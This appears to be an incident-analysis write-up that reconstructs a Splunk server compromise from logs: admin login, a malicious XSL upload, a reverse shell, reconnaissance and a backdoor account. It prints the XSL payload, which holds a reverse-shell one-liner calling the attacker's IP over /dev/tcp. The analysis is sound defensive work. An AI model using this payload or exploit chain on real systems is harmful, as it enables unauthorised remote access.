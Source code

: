 ### 2. Deconstructing the Attack via Log Analysis

The logs show a clear, step-by-step execution of the exploit chain.

**Stage 1: Authenticated Access**
The attacker first logged into the Splunk server. The log shows a successful login for the `admin` user from the attacker's IP. The password (`SPLUNK-i-04...`) appears to be a default or weak password.
<img width="644" height="248" alt="image" src="https://github.com/user-attachments/assets/3081c127-ff75-47b5-a6a1-a19ce6082fac" />

**Stage 2: Malicious File Upload**
The attacker then used their authenticated session to upload the weaponized `shell.xsl` file. The URL shows them accessing the `__upload/indexing/preview` endpoint, which is the vulnerable component.
<img width="640" height="217" alt="image" src="https://github.com/user-attachments/assets/ec78f783-a684-4e4e-b472-8c5a7f3e1739" />

*   **`shell.xsl` Content:** This file contained instructions to create a new file named `shell.sh` in the `/opt/splunk/bin/scripts/` directory.
    ```xsl
    <exsl:document href="/opt/splunk/bin/scripts/shell.sh" method="text">
        <xsl:text>sh -i >& /dev/tcp/180.101.88.240/1923 0>&1</xsl:text>
    </exsl:document>
    ```

*   **`shell.sh` Content:** The content written to this new file is a classic one-line reverse shell. It instructs the server to initiate an interactive shell (`sh -i`) and redirect all its input and output (`>& ... 0>&1`) over a TCP connection to the attacker's C2 server (`180.101.88.240`) on port `1923`.

**Stage 3: Reverse Shell Activation**
Network logs confirm that the reverse shell was successfully activated. The Splunk server (`18.219.80.54`) is seen making an outbound connection *to* the attacker's IP on the specified port.
<img width="639" height="305" alt="image" src="https://github.com/user-attachments/assets/48de4954-9c16-4af8-87f3-34ad51cdff4f" />

### 3. Post-Exploitation Activity (Endpoint Analysis)

With an active reverse shell, the attacker had full command-line access. The endpoint logs show their actions:
*   **Reconnaissance:** The attacker immediately ran commands like `id`, `whoami`, and `groups` to understand their user context and privilege level.
    <img width="1135" height="209" alt="image" src="https://github.com/user-attachments/assets/ea5ebd5c-df39-42ca-95e4-8dae42a06555" />
*   **Establishing Persistence:** The attacker created a new local user account named `analsyt` and set a password for it. This creates a persistent backdoor for them to log in later, even if the initial Splunk vulnerability is patched or the admin password is changed.
    <img width="1156" height="245" alt="image" src="https://github.com/user-attachments/assets/b1e5f700-beb0-4557-8c1a-2ef71a8e025d" />

### 4. Threat Intelligence

The attacker's IP `180.101.88.240` is a known malicious actor with a poor reputation on VirusTotal (4 detections) and a very high number of reports on AbuseIPDB (over 47,000).

<img width="1814" height="762" alt="image" src="https://github.com/user-attachments/assets/533e785a-0c9f-4727-a9f0-d1cc70b52b59" />
<img width="1615" height="799" alt="image" src="https://github.com/user-attachments/assets/c5de4821-43c8-45b7-b32e-3c728ee1c770" />

